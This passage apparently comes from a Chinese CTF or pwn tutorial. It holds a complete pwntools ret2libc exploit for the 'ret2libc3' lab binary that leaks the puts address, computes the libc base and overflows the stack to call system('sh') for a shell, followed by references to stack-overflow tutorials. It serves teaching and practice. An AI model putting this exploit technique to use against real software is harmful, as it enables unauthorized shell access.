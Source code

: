 exp:

```plain
from pwn import *

elf=ELF("./ret2libc3")
libc=ELF("/usr/lib/i386-linux-gnu/libc.so.6")
io = process("./ret2libc3")
#io = remote("ip",port)
io.sendlineafter(b" :", str(elf.got["puts"]))
io.recvuntil(b" : ")
LibcBase=int(io.recvuntil(b'\n',drop=True), 16)-libc.symbols["puts"]
system_addr=LibcBase+libc.symbols["system"]
payload=flat([cyclic(60),system_addr,cyclic(4),next(elf.search(b"sh\00"))])
#payload=flat([cyclic(60),system_addr,pop_ebx_ret,next(elf.search(b'sh\00'))])

io.sendlineafter(b' :',payload)
io.interactive()
```

[![](assets/1701612384-09be7ec8ac83f048de8957e9efdeb49f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204432-b1d34f6e-167a-1.png)

# 参考

[手把手教你栈溢出从入门到放弃（上） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/25816426)

[手把手教你栈溢出从入门到放弃（下） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/25892385)

